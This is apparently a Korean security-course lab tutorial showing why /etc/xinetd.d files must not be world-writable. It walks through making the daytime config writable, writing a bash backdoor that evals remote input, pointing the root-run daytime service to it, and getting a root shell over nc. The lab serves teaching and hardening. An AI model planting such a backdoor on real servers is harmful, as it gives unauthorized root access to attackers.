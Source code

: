 ## /etc/(x)inetd.conf 파일 소유자 및 권한 설정

리눅스의 슈퍼 데몬인 `xinetd`의 설정 파일을 `root` 외의 사용자가 수정할 수 있으면 어떤 문제가 발생할 수 있는지 알아봅시다.

### [우분투 : 취약한 리눅스 서버 관리자] 취약한 시스템을 만듭니다.

A. 우분투 데스크탑 22.04 LTS에는 슈퍼 데몬인 `xinetd`가 설치되어 있지 않습니다. 그러므로 먼저 `xinetd`를 설치합니다.

```
cju@wooam:~$ sudo apt install xinetd
```

B. `xinetd.conf` 파일의 소유자와 접근 권한을 살펴봅시다. 소유자는 `root`이고 접근 권한은 `-rw-r--r--`(644)입니다.

```
cju@wooam:~$ ls -l /etc/xinet.conf
```

C. `xinetd.conf` 파일의 내용도 살펴봅시다. `/etc/xinetd.d` 디렉터리를 포함(`includedir`)하는 것을 확인할 수 있습니다.

```
cju@wooam:~$ cat /etc/xinetd.conf
# Simple configuration file for xinetd
#
# Some defaults, and include /etc/xinetd.d/

defaults
{

# Please note that you need a log_type line to be able to use log_on_success
# and log_on_failure. The default is the following :
# log_type = SYSLOG daemon info

}

includedir /etc/xinetd.d
```

D. `/etc/xinetd.d` 디렉토리를 살펴봅시다. `xinetd`를 통해 서비스될 수 있는 다양한 서비스 설정 파일이 있습니다.

```
cju@wooam:~$ ls /etc/xinetd.d/
chargen  chargen-udp  daytime  daytime-udp  discard  discard-udp  echo  echo-udp  servers  services  time  time-udp
```

E. `/etc/xinetd.d` 디렉터리 안에 있는 설정 파일 중 하나의 접근 권한을 `-rw-rw-rw-`(666)로 변경합니다. 여기서는 `daytime`의 접근 권한을 변경합니다.

```
cju@wooam:~$ sudo chmod 666 /etc/xinetd.d/daytime
```

### [칼리 : 공격자] `xinetd` 자체 `daytime` 서비스 대신 백도어를 올립니다.

> 공격자가 취약한 우분투 데스크탑의 일반 사용자 계정을 탈취했다고 가정합니다.

A. 먼저 일반 사용자 계정을 사용하여 우분투 데스크탑에 원격 접속합니다.

```
┌──(kali㉿kali)-[~]
└─$ ssh aaa@192.168.xxx.xxx 13
```

B. `xinetd` 설정 파일의 접근 권한을 살펴봅시다. `/etc/xinetd.d/daytime` 파일을 누구나 수정할 수 있음을 발견합니다.

```
aaa@wooam:~$ ls -l /etc/xinetd.conf /etc/xinetd.d
```

C. 아래와 같이 간단한 백도어를 만듭니다.

```
aaa@wooam:~$ cat hola
#!/bin/bash
echo "Welcome to the victim server!"
read yourcommand
eval $yourcommand
echo "Thanks you for using this backdoor!"
```

D. 만든 백도어 파일에 실행 권한을 부여합니다.

```
aaa@wooam:~$ chmod 755 hola
```

E. `/etc/xinetd.d/daytime` 파일을 아래와 같이 수정합니다. `disable = no`로 수정하고 `type = INTERNAL` 라인은 삭제합니다. 그리고 `server = /home/aaa/hola`를 추가합니다. 이렇게 설정을 변경하면 `xinetd`는 자체의 `daytime` 서비스를 제공하지 않고 `/home/aaa/hola`의 실행을 통해 서비스를 제공합니다.

```
aaa@wooam:~$ cat /etc/xinetd.d/daytime
# default: off
# description: An internal xinetd service which gets the current system time
# then prints it out in a format like this: "Wed Nov 13 22:30:27 EST 2002".
# This is the tcp version.
service daytime
{
	disable		= no
	id		= daytime-stream
	socket_type	= stream
	protocol	= tcp
	user		= root
	wait		= no
	server		= /home/aaa/hola
}

# This is the udp version.
service daytime
{
	disable		= yes
	type		= INTERNAL
	id		= daytime-dgram
	socket_type	= dgram
	protocol	= udp
	user		= root
	wait		= yes
}

```

F. 원격 접속을 종료합니다.

```
aaa@wooam:~$ exit
```

### [우분투 : 취약한 리눅스 서버 관리자] `xinetd`를 재시작합니다.

A. `xinetd` 서비스를 재시작합니다.

```
cju@wooam:~$ sudo systemctl restart xinetd
```

### [칼리 : 공격자] `daytime` 백도어를 통해 자유롭게 시스템에 접근합니다!

A. `nc` 명령어를 이용하여 백도어에 접근합니다.

```
┌──(kali㉿kali)-[~]
└─$ nc -v 192.168.xxx.xxx 13
192.168.102.128: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.xxx.xxx] 13 (daytime) open
Welcome to the victim server!
whoami
root
Thank you for using this backdoor!
```

B. 셸도 실행할 수 있습니다!

```
┌──(kali㉿kali)-[~]
└─$ nc -v 192.168.xxx.xxx 13
192.168.102.128: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.xxx.xxx] 13 (daytime) open
Welcome to the victim server!
sh
pwd
/
exit
Thank you for using this backdoor!
```